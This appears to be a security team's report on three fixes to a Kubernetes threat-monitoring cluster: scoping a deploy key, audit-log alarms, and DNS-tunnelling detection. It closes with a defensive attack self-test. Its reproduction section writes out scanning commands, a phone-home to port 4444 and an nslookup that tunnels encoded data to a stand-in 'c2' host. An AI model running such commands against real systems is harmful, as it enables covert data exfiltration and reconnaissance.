




## What this is

We found three security gaps, fixed all three, then attacked the system on
purpose to prove the fixes work. This document shows each gap, the exact change
we made, and the evidence. Nothing here needs a security background to follow.

Terms used (once, then plainly): **Wazuh** is the system that stores and shows
alarms. **CoreDNS** is the cluster's phone book. **Tetragon** and **Cilium** are
the in-cluster guards.

\newpage

## The system at a glance

{width=100%}

Every alarm ends up in one place (Wazuh), where it can be searched and
screenshotted. The rest of this document walks each fix and each test.

\newpage

## Fix 1 — A deploy key could be stolen by any pull request

**Problem.** Our automated builder holds an AWS admin key. The rule that decides
who may borrow that key allowed *anyone who opened a pull request* — so an
outside suggestion could get admin access.

**What we changed (in order):**

1. Tightened the admin key so it is only handed out for the real `main` branch.
2. Created a second, **read-only** key for pull requests (it can look, not change).
3. Pointed the pull-request job at the read-only key; left the deploy job on the admin key.

**Proof.** The admin key's trust now reads exactly one allowed source:

```
repo:JaamesBond/ultra-advanced-threat-monitoring-system:ref:refs/heads/main
```

A pull request no longer matches it. The read-only plan job ran green on a real
pull request, confirming day-to-day work still functions with the weaker key.

\newpage

## Fix 2 — Control-plane actions were not recorded

**Problem.** The cluster writes down every administrative action (who created what,
who changed permissions, who read a secret), but nothing was reading that log.
A hidden scheduled job or a permission change raised no alarm.

**What we changed (in order):**

1. Connected the cluster's audit log to Wazuh.
2. Added alarms for the actions that matter: create a scheduled job, change
   permissions, open a shell inside a running container, read a secret.
3. Set the routine, harmless entries to "record silently" so the alarm list
   stays readable and the disk does not fill.

**Proof.** We created a scheduled job (a `CronJob`) as a test. The alarm appeared
in Wazuh, showing the job name, namespace, and who did it:

{width=92%}

\newpage

## Fix 3 — Data smuggling through DNS was invisible

**Problem.** Programs look up internet addresses constantly (DNS). An attacker can
hide stolen data *inside* those lookups (a long, gibberish address). We were not
recording these lookups, so the smuggling would be invisible.

**What we changed (in order):**

1. Found where the lookups really go. They bypass a local helper and go straight
   to CoreDNS, so we record them at CoreDNS (recording the helper would have
   caught nothing).
2. Turned on lookup recording at CoreDNS and confirmed normal lookups still work
   (internal names and the public internet both still resolve).
3. Added an alarm for the tell-tale sign of smuggling: an abnormally long,
   gibberish address.

**Proof.** We sent a fake smuggling lookup. The alarm fired, with the address and
the source clearly shown:

{width=92%}

\newpage

## The attack test, step by step

We ran these from a test "attacker" inside the cluster and watched the result.

| # | What we did | Expected | Result |
|---|-------------|----------|--------|
| 1 | Run `nmap` / `nc` (hacking tools) | tool stopped | **Killed** — exit code 137 |
| 2 | Try to read the cloud ID badge + all secrets | blocked | **Blocked** — no reply (000) |
| 3 | Phone home to a bad server on port 4444 | blocked + alarm | **Blocked + alarm 100710** |
| 4 | (Fix 1) Borrow the admin key via a fake pull request | refused | **Refused** — key is `main`-only |
| 5 | (Fix 2) Create a hidden scheduled job | alarm | **Alarm 100402** |
| 6 | (Fix 3) Smuggle data via a DNS lookup | alarm | **Alarm 100721** |

What the codes mean: **137** = the program was force-stopped. **000** = the
attacker got no answer at all. **alarm N** = a record we can open and screenshot.

Evidence for step 3 (the phone-home was both blocked and recorded):

{width=92%}

\newpage

## Did anything break? No.

We checked the whole system right after the attack:

| Check | Result |
|-------|--------|
| Research apps still running | 15 of 15 healthy |
| Internet phone book (DNS) | still answering, internal and external |
| Alarm system (Wazuh + storage) | running, disk steady at ~44% |
| Cluster guards (Tetragon, Cilium, sensors) | all reporting |

We also pushed the fixes through the automatic builder. It rebuilt the alarm
computer from a blank slate, and it came back with **every alarm re-installed by
itself** and all detections working again — proof the setup is written down as
code, not hand-built.

## Not done yet (honest list)

These are smaller, "make it even better" items, written up separately:

- Catching a phone-home that hides inside normal web traffic (port 443). Blocking
  the obvious channels is done; this needs a larger change.
- Reducing noise from one over-sensitive sensor (a tuning decision for the team).
- Tightening movement *between* programs once an attacker is already inside one.

## How to reproduce (for the technical reader)

Re-auth, then point at the cluster:

```bash
aws sso login --profile Matei
export AWS_PROFILE=Matei AWS_REGION=eu-central-1
aws eks update-kubeconfig --name bc-uatms-prd-eks --region eu-central-1 \
  --kubeconfig /tmp/kubeconfig-prd
export KUBECONFIG=/tmp/kubeconfig-prd
P="kubectl exec -n nomad-oasis pentest-netshoot -- sh -c"
```

```bash
# 1  tools are killed (expect 137)
$P 'nmap -Pn -p80 10.30.10.137; nc -zw2 10.30.10.61 5432'
# 3  phone-home blocked + alarm 100710
$P 'curl --max-time 3 http://1.1.1.1:4444'
# 5  hidden job -> alarm 100402
kubectl create cronjob demo --image=busybox --schedule='*/5 * * * *' \
  -n nomad-oasis -- echo hi
# 6  DNS smuggling -> alarm 100721 (label must be <= 63 chars)
$P 'nslookup ZGFzaGJvYXJkc2hvdGRuc3R1bm5lbGV4ZmlsY2h1bmtkZW1v.c2.example.net 172.20.0.10'
```

View alarms: open the Wazuh dashboard, set the time range to **Last 24 hours**
(the dashboard shows local time, two hours ahead of the cluster's UTC clock —
a narrow window is why alarms can look missing), then search `rule.id:100721`,
`rule.id:100710`, or `rule.id:100402`.
